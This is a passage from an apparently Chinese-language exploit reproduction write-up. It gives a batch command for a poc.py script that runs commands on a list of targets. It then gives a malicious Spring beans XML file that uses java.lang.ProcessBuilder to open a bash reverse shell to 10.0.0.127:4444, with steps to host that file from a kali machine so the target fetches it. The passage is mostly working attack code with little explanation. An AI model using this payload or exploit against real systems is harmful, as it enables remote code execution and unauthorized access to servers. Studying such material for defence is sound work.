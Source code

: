 ###### 二、批量命令回显

```
python3 poc.py -u http://ip:port -f target.txt -c "{cmd}"
```

target.txt 为 ip:port目标，一行一个，由于只开了一个靶机，这里不复现

###### 三、外置xml文件无回显命令执行

编辑好xml文件

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
 <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

修改cmd指令为反弹shell

```
<![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]>
```

开启python http服务，让其能访问kali上的xml文件：

![image-20230222121930639](2024-02-13/image-20230222121930639.png)

<img src="2024-02-13/image-20230222123705013.png" alt="image-20230222123705013" style="zoom:50%;" />
